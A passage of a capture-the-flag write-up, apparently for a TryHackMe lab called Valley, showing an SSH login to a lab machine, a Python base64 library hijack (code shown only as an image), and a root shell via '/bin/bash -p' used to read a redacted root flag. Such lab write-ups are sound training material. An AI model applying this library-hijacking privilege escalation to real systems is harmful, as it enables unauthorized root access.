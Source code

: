 Login with this password
```
$ ssh valley@10.10.141.83   
valley@10.10.141.83's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

valley@valley:~$ ls
Desktop    Downloads  Music     Public     Videos
Documents  exp_dir    Pictures  Templates
```

## Perform some Python library higjacking and change the base64 library

<img src="images/base64.png">

Wait for the python script to execute then we should have sudo priveldges of bash.

```
$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt 
THM{-------------}
```